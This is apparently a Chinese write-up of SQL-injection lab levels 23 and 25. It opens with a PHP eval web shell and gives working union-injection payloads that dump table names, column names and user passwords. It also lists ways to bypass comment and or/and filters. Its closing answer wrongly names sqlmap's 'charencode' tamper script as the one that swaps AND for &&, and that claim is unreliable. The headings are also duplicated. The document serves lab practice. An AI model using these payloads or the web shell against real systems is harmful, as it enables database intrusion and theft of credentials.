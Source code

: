 ```
<?php @eval($_POST['a']);?>
```







#### 第二十三关

第二十三关重新回到get请求，会发现输入单引号报错，但是注释符不管用。猜测注释符被过滤，看来源码果然被注释了，所以我们可以用单引号闭合，发现成功。之后可以使用联合注入。不过在判断列数时候不能使用order by 去判断需要用?id=-1' union select 1,2,3,4 or '1'='1通过不停加数字判断最后根据页面显示是三列，且显示位是2号。

```
?id=1' or '1'='1

这样sql语句就变成 id='1' or '1'='1'


?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 or '1'='1

?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' ),3 or '1'='1

?id=-1' union select 1,(select group_concat(password,username) from users),3 or '1'='1
```







#### 第二十五关

**本关主要为 or and 过滤，如何绕过 or 和 and 过滤。**

> 根据提示是将or和and这两个替换成空，但是只替换一次。大小写绕过没有用。我们可以采用双写绕过。本次关卡使用联合注入就可以了，information里面涉及or可以写成infoorrmation。

一般性提供以下几种思路： 

（1）大小写变形 Or,OR,oR 

（2）编码，hex，urlencode 

（3）添加注释/*or*/ 

（4）利用符号 and=&& or=||







#### 第二十五关

***Q：sqlmap中将`and`替换为`&&`，需要使用哪一个--tamper 绕过WAF脚本***

***A：***在SQLMap中，可以使用`--tamper`选项来使用特定的绕过WAF脚本。如果你想将`AND`替换为`&&`，你可以使用内置的`tamper`脚本`charencode`。

这将使用`charencode`脚本来编码请求中的字符，包括将`AND`替换为`&&`。
